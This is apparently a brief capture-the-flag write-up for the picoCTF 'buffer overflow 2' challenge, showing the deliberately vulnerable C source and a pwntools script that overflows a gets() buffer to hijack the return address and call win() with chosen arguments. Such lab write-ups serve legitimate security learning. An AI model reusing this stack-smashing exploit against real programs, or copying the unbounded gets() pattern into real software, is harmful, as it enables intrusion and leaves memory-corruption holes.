 # buffer overflow 2 [Pwn]

Link : [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


```

Control the return address and arguments

32 bits function call: fun_addr + 4 bytes + arg0 + arg1 + arg2 + .... + argn

```python
from pwn import *


sh = remote("saturn.picoctf.net",60889)
print(sh.recv().decode())
sh.sendline(b"A"*(100+4+4+4) + p32(0x08049296) + b"P"*4 + p32(0xCAFEF00D) + p32(0xF00DF00D))
sh.interactive()
```

![flagbof2](datas/flagbof2.png)
